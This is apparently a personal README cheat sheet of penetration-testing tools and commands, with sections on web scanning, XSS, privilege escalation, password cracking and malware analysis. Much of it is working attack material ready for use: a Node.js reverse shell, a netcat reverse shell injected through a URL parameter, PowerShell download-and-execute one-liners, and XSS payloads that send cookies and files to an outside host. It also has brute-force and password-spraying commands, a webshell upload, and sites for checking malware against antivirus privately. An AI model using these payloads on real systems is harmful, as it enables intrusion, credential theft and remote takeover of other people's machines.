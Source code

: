 # CyberSecResources
List of tools/resources for Cybersecurity
## Resources
- https://github.com/khanhnnvn/CEHv10/blob/master/Labs/CEHv10%20Module%2006%20System%20Hacking.pdf
- https://payloadplayground.com/
- https://www.revshells.com/

## Websites
### Web Scanner
  - Burpsuite
  - OWASP ZAP
  - Vega
  - nmap
  - nikto
  - uniscan
  - ffuf
  - Arachni (Modular scanner with great CLI and web GUI)
  - Wapiti (Lightweight scanner for GET/POST attack surfaces)
  - SQLmap (SQL Injection + Command execution within SQL)
  - XSStrike (XSS scanner with payload fuzzing)

    
### Important Commands
    - ``` ffuf -w /path/to/wordlist -u https://target/FUZZ ```
    - ``` ffuf -w /usr/share/wordlists/SecLists/Usernames/Names/names.txt -X POST -d "username=FUZZ&email=x&password=x&cpassword=x" -H "Content-Type: application/x-www-form-urlencoded" -u http://10.10.134.222/customers/signup -mr "username already exists" ```
    - ``` ffuf -w valid_usernames.txt:W1,/usr/share/wordlists/SecLists/Passwords/Common-Credentials/10-million-password-list-top-100.txt:W2 -X POST -d "username=W1&password=W2" -H "Content-Type: application/x-www-form-urlencoded" -u http://10.10.134.222/customers/login -fc 200 ```
  - ```sqlmap -u "http://example.com/login.php" --data "username=admin&password=test" --dbs```
  - ```ldapsearch -x -h 10.10.10.25 -b "(objectclass=user)" | grep sAMAccountName```
  - ```nmap --script ldap-rootdse 10.10.10.0/24```
  - ```certutil.exe -urlcache -split -f "gttp://pstools.exe" pstools.exe```
  - ```sudo responder -I eth0 -dwP```
  - PHP Filter Chaining (https://github.com/synacktiv/php_filter_chain_generator/tree/main)
    - How to use? https://exploit-notes.hdks.org/exploit/web/security-risk/php-filters-chain/
  - sudo mount -t cifs //target-IP/cyberq /mnt/cyberq -o guest
  - ```nxc smb 10.10.207.204 -u usernames.txt -p /usr/share/wordlists/rockyou.txt  --ignore-pw-decoding```
  - ```cat /usr/share/wordlists/rockyou.txt | grep -v "#" | grep -v "!" | grep -v "%" | grep -v "?" | grep -v "/" >> /usr/share/wordlists/rockyou3.txt```
  - ```cadaver http://192.68.0.51/dav/```
  - ```put webshell/phpshell.php```
  - ```1..1024 | % {echo ((new-object Net.Sockets.TcpClient).Connect("10.0.0.100",$_)) "Port $_ is open!"} 2>$null```
  - ```1..20 | % {$a = $_; write-host "------"; write-host "10.0.0.$a"; 22,53,80,445 | %{echo ((new-object Net.Sockets.TcpClient).Connect("10.1.l.$a",$_)) "Port $_ is open!"} 2>$null}```
  - ```iex (iwr 'http://192.168.2.2/file.ps1')``` -> Download in-memory
  - ```iex (New-Object Net.WebClient).DownloadString('https://192.168.2.2/reverse.ps1')``` -> Download in-memory
  - ```$down = [System.NET.WebRequest]::Create("http://192.168.2.2/file.ps1"); $read = $down.GetResponse(); IEX ([System.lO.StreamReader]($read.GetResponseStream())).ReadToEnd()``` -> Download in-memory
  - JavaScript Shell
    ```
    (function(){
    var net = require("net"),
        cp = require("child_process"),
        sh = cp.spawn("/bin/sh", []);
    var client = new net.Socket();
    client.connect(443, "10.18.1.77", function(){
        client.pipe(sh.stdin);
        sh.stdout.pipe(client);
        sh.stderr.pipe(client);
    });
    return /a/; // Prevents the Node.js application from crashing
    })();
```
  -
  - knockpy To discover subdomains

### SSRF, RCE, XXE, LFI Helpers
  - SSRFire – SSRF exploitation automation (Python)
  - liffy – LFI to RCE using wrappers, filters, or logs
  - Kiterunner – Advanced wordlist-based directory busting with support for Swagger/OpenAPI
  - tplmap – Server-side template injection tool
    
### XSS
  - ```fetch('/flag.txt').then(res => res.text()).then(data => { fetch('http://10.9.2.138:1234?flag=' + btoa(data));});```
  - ```</textarea><script>fetch('http://10.9.2.138:1234?cookie=' + btoa(document.cookie) );</script>```
  - ```jaVasCript:/*-/*`/*\`/*'/*"/**/(/* */onerror=alert('THM') )//%0D%0A%0d%0a//</stYle/</titLe/</teXtarEa/</scRipt/--!>\x3csVg/<sVg/oNloAd=alert('THM')//>\x3e``` -> An XSS polyglot is a string of text which can escape attributes, tags and bypass filters all in one. You could have used the below polyglot on all six levels you've just completed, and it would have executed the code successfully.

### Spiders & Path Traversal
- Feroxbuster
- Dirsearch
- FFUF
- Dirb
- OWASP ZAP
- Burpsuite

## Privilege Escalation
### Linux
- LinPeas https://github.com/peass-ng/PEASS-ng
- DirtyCow https://github.com/firefart/dirtycow // https://github.com/firefart/dirtycow/blob/master/dirty.c
- linux-exploit-suggester
- https://www.revshells.com/
- https://github.com/c3l3si4n/pwnkit/tree/main OR 
- Encode payload in URL
-     ```curl -s 'http://10.10.7.56/mbilling/lib/icepay/icepay.php' --get --data-urlencode 'democ=;rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|sh -i 2>&1|nc 10.9.0.186 4443 >/tmp/f;'```
  
### Windows
- BeRoot.exe
- WinPeas https://github.com/peass-ng/PEASS-ng/tree/master/winPEAS
- PowerUp.ps1

| Tool | Platform | Description |
| --------- | --------- | ----------- |
| winPEASx64.exe | Windows | Windows local enum (binary, no install) |
| PowerUp.ps1 | Windows | PowerShell-based privilege checks |
| Seatbelt | Windows | Targeted enumeration (token, policy, env) |
| SharpUp | Windows | C# version of PowerUp |
| AccessChk (Sysinternals) | Windows | Privilege and permissions checker |
| Enum.exe | Windows | Legacy tool for shares, users, etc. |
| net commands | Built-in | net user, net share, net localgroup etc. |
| WMIC | Built-in | System config and user query tool |

### Crack Passwords (Windows)
- L0phtCrack 7 – GUI cracking suite
- Mimikatz – Extracts credentials, SAM secrets, tickets
- CrackMapExec – Swiss army knife for Active Directory
- pwdump7 – Dump hashes from SAM
- secretsdump.py (Impacket) – Extract NTLM hashes from SAM + SYSTEM

## Enumerate OS
- nmap
- enum4linux
- uniscan

## Find Exploit-db Exploits commands line
- searchsploit

## Malware Analysis
### Offline Malware Analysis

#### Static

##### File Fingerprinting
- MD5/SHA2 Message Digest 

##### String Search
- PE Studio
- DIE
- FLOSS (Fire Eye) 
- Strings (Microsoft) 
- BinText

##### Packing/Obfuscation
- PEid (Find must common crypters, compilers and packer)
- DIE (Detect it Easy for ELF Malware)

##### Portable Executable information
- PE Explorer (EXE, ActiveX, DLL)

##### Identifying File Dependency
- Dependency Walker
- Virus Total

##### Malware Disassembly 
- IDA Pro
- Ghidra
- OllyDbg

### Malware Analysis Online
- https://hybrid-analysis.com/
- https://www.virustotal.com/
- https://whois.domaintools.com
- https://toolbar.netcraft.com/site_report?url
- https://www.robtex.com

No Distribution of results
- https://nodistribute.com/ # Preferred
- https://antiscan.me/
- https://www.virscan.org/language/en/ # Not tested
- https://spyralscanner.net/

### Additional
- Cuckoo sandbox
- Virusshare.com
- Malware traffic analysis
- certutil.exe -urlcache -split -f "gttp://pstools.exe" pstools.exe
